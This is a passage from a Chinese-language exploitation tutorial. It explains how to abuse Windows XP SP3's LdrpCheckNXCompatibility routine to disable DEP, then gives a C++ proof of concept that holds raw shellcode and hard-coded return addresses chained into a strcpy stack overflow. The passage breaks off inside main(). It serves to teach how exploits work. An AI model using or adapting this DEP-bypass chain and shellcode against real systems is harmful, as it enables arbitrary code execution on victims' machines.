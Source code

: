 所以我们只要构造一个的合乎要求的栈帧，然后调用这个函数就可以为进程关闭 DEP 了。还有一个小问题，函数的参数中包含着 0x00 这样的截断字符，这会造成字符串复制的时候被截断。既然自己构造参数会出现问题，那么我们可不可以在系统中寻找已经构造好的参数呢？

如果系统中存在一处关闭进程 DEP 的调用，我们就可直接利用它构造参数来关闭进程 的 DEP 了。 

在这微软的兼容性考虑又惹祸了，如果一个进程的 Permanent 位没有设置，当它加载 DLL 时，系统就会对这个 DLL 进行 DEP 兼容性检查，当存在兼容性问题时进程的 DEP 就会被关闭。 为此微软设立了LdrpCheckNXCompatibility 函数，当符合以下条件之一时进程的DEP会被关闭：

- （1）当 DLL 受 SafeDisc 版权保护系统保护时； 
- （2）当 DLL 包含有.aspcak、.pcle、.sforce 等字节时； 
- （3）Windows Vista 下面当 DLL 包含在注册表“HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions”键下边标识出不需要启动 DEP 的模块时。 

如果我们能够模拟其中一种情况，结果会是怎么样的呢？答案是进程的 DEP 被关闭！

这里选择第一个条件进行尝试。我们来看一下 Windows XP SP3 下 LdrpCheckNXCompatibility 关 闭 DEP 的具体流程，以 SafeDisc 为例。如图 12.3.2 所示。 

<img src="images/09/ldrpChecknxcompatibility关闭DEP流程.png" >

现在我们知道 LdrpCheckNXCompatibility 关闭 DEP 的流程了，我们开始尝试模拟这个过程，我们将从 0x7C93CD24 入手关闭 DEP，这个地址可以通过 OllyFindAddr 插件中的 Disable DEP→Disable DEP <=XP SP3 来搜索，如图 12.3.3 所示。 
 
<img src="images/09/关闭DEP入口地址搜索结果.png">

由于只有``` CMP AL ，1``` 成立的情况下程序才能继续执行，所以我们需要一个指令将 AL 修 改为 1。将 AL 修改为 1 后我们让程序转到 0x7C93CD24 执行，在执行 0x7C93CD6F 处的 RETN 4 时 DEP 已经关闭，此时如果我们可以在让程序在 RETN 到一个我们精心构造的指令地址上， 就有可能转入 shellcode 中执行了。我们通过以下代码来分析此流程的具体过程。 

```c++
#include<stdlib.h> 
#include<string.h> 
#include<stdio.h> 
#include<windows.h> 
#include<tchar.h>

char shellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" 
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" 
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" 
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" 
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" 
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" 
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" 
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
    "\x90\x90\x90\x90" 
	"\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址 
    "\x85\x8B\x1D\x5D"//修正 EBP 
    "\x19\x4A\x97\x7C"//增大 ESP 
    "\xB4\xC1\xC5\x7D"//jmp esp 
    "\x24\xCD\x93\x7C"//关闭 DEP 代码的起始位置 
    "\xE9\x33\xFF\xFF"//回跳指令 "\xFF\x90\x90\x90" 
    ; 

void test() {    
    char tt[176];    
    strcpy(tt,shellcode); 
} 

int main() 
{    
    HINSTANCE hInst = LoadLibrary(_T("shell32.dll"));    
    char temp[200];    
    test();    
```